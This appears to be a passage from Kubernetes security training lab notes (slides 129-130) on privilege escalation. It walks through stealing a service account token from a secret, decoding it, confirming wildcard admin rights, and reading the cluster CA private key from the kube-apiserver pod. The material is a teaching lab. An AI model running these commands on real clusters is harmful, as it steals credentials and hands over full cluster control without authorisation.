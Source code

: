 One of these looks interesting...

```
kubectl get secrets -n tracee-system | grep security
```

Let's try and get the service account token stored in this secret
```
kubectl -n tracee-system get secret security-svc-token -o json
```

For this command we used `-o json`, hence the output details in json, some cases makes it easier to parse

### Slide 129 - Priv esc - to golden tickets (lab cont.)

We need to get the token in a form we can use

```
export TOKEN=$(kubectl -n tracee-system get secret security-svc-token -o=jsonpath="{.data.token}" | base64 -d)
```
**Note:** The above command parses the field out of josn, and decodes the base64

```
echo $TOKEN
```
**Note:** Starts with eyJ which is the clue its a JSON Web Token, which is in base64 still (it was encoded twice), the eyJ is the first few characters in a JSON doc in base64. You can always `echo $TOKEN | base64 -d` if you want to see what the JSON looks like in a JWT

```
kubectl auth can-i --list
```

### Slide 130 - Priv esc to golden tickets (lab cont.)

Let's try to use the token this time
```
kubectl auth can-i --list --token="$TOKEN"
```

This time `kubectl` used our stolen token, so now we're authenticating as the other service account with all the privileges. We'll have to make sure to include the TOKEN in future commands to keep using this account.

The big thing you'll should notice in the command output is a * on resources on the same line as a * on verbs. 
Since you can do every verb on every resource, this is kind of like root/domain admin for Kubernetes.

Let's find the API service pod, it'll be running in the kube-system namespace.

```
kubectl get pods -n kube-system --token="$TOKEN"
```

We're looking for the pod with "kube-apiserver-" in the name.

Great let's steal the PKI private key off the api server pod and take over the cluster
```
kubectl --token="$TOKEN" -n kube-system exec kube-apiserver-lab-control-plane -- cat /etc/kubernetes/pki/ca.key
```
